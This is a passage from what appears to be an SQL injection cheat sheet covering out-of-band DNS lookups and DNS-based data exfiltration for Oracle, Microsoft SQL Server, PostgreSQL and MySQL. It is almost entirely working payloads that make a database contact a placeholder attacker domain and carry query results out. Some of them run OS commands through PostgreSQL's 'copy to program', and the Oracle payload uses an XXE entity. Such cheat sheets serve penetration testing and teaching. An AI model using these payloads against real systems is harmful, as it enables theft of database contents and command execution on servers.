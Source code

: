 Microsoft

`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`

PostgreSQL

`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`

MySQL

The following techniques work on Windows only:  
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

Microsoft

`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`

PostgreSQL
```
create OR replace function f() returns void as $$
declare c text;
declare p text;   begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```

MySQL

The following technique works on Windows only:  
`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`